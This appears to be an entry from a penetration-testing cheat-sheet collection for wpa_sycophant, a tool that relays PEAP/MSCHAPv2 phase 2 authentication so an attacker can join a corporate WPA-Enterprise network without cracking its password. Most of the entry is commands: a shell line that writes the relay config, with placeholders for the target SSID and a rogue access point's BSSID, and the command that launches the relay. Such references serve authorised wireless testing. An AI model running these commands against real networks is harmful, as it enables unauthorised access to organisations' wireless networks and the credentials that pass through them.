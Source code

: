 # wpa_sycophant
% wifi, wpa_sycophant, wifi relay attack
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
A tool to relay phase 2 authentication attempts to access corporate wireless without cracking the password.
```

## _repo
```
https://github.com/sensepost/wpa_sycophant/tree/master
```

## _doc
```
https://github.com/sensepost/wpa_sycophant/tree/master
```

## _install
```
```

## create config
```bash
echo -e 'network={\n    ssid="<ssid>"\n    scan_ssid=1\n    key_mgmt=WPA-EAP\n    identity=""\n    anonymous_identity=""\n    password=""\n    eap=PEAP\n    phase1="crypto_binding=0 peaplabel=0"\n    phase2="auth=MSCHAPV2"\n    bssid_blacklist=<hostapd-mana_bssid>\n}' > wpa_sycophant.config
```

## launch relay
```bash
wpa_sycophant.sh -c wpa_sycophant.config -i <wlan_interface|wlan1>
```